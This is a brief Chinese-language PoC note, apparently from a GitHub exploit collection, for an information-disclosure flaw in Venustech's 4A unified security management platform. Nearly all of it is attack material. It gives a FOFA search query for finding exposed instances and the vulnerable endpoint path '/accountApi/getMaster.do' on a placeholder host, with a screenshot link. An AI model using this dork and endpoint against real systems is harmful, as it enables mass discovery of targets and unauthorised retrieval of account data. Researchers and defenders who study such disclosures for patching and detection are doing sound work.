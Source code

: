 # 启明星辰-4A统一安全管控平台 getMater 信息泄漏

    # fofa

```
app="启明星辰-4A统一安全管控平台"
```

## poc

```
https://xxxxxxx/accountApi/getMaster.do
```

![image](https://s1.ax1x.com/2023/08/11/pPnYDkq.png)
